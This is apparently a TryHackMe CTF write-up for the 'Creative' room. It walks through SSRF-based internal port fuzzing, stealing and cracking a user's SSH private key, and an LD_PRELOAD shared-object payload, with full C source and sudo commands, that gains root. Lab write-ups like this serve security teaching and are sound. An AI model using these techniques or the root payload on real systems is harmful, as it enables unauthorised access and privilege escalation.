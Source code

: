 ```yaml
---
title: "Creative"
date: 2025-02-18
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Creative
categories: [TryHackMe, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Creative</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a vulnerable web application and some misconfigurations to gain root privileges.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/creative">https://tryhackme.com/room/creative</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Creative.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.222.5               
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 12:54 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.045s latency).
  Not shown: 65533 filtered tcp ports (no-response)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 116.54 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.222.5
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 12:57 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.044s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
  |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
  |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
  80/tcp open  http    nginx 1.18.0 (Ubuntu)
  |_http-title: Did not follow redirect to http://creative.thm
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.71 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When I accessed the webserver, my browser was redirected to the DNS name `creative.thm`. I added the name to my `hosts` file an proceed. Due to the hostname, I started with a subdomain enumeration:

```bash
 ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.creative.thm" -u http://10.10.222.5/ -fs 178

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.222.5/
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
   :: Header           : Host: FUZZ.creative.thm
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 178
  ________________________________________________

  beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 45ms]
```

I found a subdomain that displayed a URL Tester:

![URL tester](/assets/img/tryhackme/Creative/thm_creative_1.jpg)

I started with the local website `http://127.0.0.1/`, and it loaded successfully. This appeared to be a Server-Side Request Forgery (SSRF) vulnerability, so I checked whether I could reach another internal system on a different port. I used ffuf to fuzz localhost and all ports up to 65535. I created a port list using `seq` as the wordlist for ffuf.

```bash
$ seq 65535 > ports.txt
$ ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fs 13

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : POST
   :: URL              : http://beta.creative.thm/
   :: Wordlist         : FUZZ: /home/kali/ctf/creative/ports.txt
   :: Header           : Content-Type: application/x-www-form-urlencoded
   :: Data             : url=http://127.0.0.1:FUZZ
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 13
  ________________________________________________

  80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 80ms]
  1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 78ms]
```

Ffuf identified an interesting port. I started by checking port `1337`, which revealed a directory listing on the server:

![Directory browsing](/assets/img/tryhackme/Creative/thm_creative_2.jpg)

Since I had some initial access to the system, I enumerated the files and directories to gain better access. I found the `.bash_history` in the `/home/saad` directory. The user had stored their credentials in a file:
```bash
[...]
sudo -l
echo "saad:[removed]" > creds.txt
rm creds.txt
[...]
```

I tried using this to connect via SSH, but received an error due to my public key. I searched for `Saad's` private key and found it under `/home/saad/.ssh/id_rsa`. After downloading the key, I saved it in a file called `id_rsa`. To establish the SSH connection, I needed the password for the key. I used `ssh2john` to retrieve the key hash and stored it in a file. Using john and the rockyou.txt wordlist, I was able to crack the password. After that, I was able to log in via SSH and retrieved the user flag:
```bash
$ nano id_rsa
$ ssh2john id_rsa > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
  Cost 2 (iteration count) is 16 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  [removed]        (id_rsa)     
  1g 0:00:00:10 DONE (2025-02-18 04:23) 0.09124g/s 87.59p/s 87.59c/s 87.59C/s hawaii..sandy
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
$ chmod 600 id_rsa
$ ssh -i id_rsa saad@10.10.246.214

saad@m4lware:~$ cat user.txt
  [removed]
```

## Privilege Escalation root
I started with `sudo -l` because I already found the password and got the following output:
```bash
$ sudo -l
  [sudo] password for saad: 
  Matching Defaults entries for saad on m4lware:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

  User saad may run the following commands on m4lware:
      (root) /usr/bin/ping
```

The tool `ping` itself wouldn't be of much help, but in combination with `env_keep+=LD_PRELOAD`, it was. First, I created a file called shell.c with the following content:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Then I compiled it as a shared object using `gcc`:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

I was able to specify the `LD_PRELOAD` to point to my shared object, started a ping using `sudo`, and became root. From there I was able to retrieve the root flag:
```bash
$ sudo LD_PRELOAD=/home/saad/shell.so /usr/bin/ping
root@m4lware:/home/saad# cd /root
root@m4lware:~# cat root.txt 
  [removed]
```

solved! :)